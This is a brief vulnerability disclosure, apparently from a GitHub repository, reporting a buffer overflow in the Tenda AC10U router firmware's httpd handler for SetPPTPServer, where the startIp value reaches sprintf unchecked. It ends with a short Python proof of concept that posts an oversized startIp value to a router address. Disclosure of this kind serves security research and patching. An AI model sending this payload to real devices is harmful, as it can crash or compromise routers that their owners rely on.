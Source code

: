 # buff overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buff overflow in httpd/formSetPPTPServer

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](../Tenda_AC6_v2/6.png)

get value from startIp ,then call sprintf, cause buff overflow

![](../Tenda_AC6_v2/7.png)


## POC
```
url = "http://192.168.1.13/goform/SetPPTPServer"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'startIp': payload})
``` 
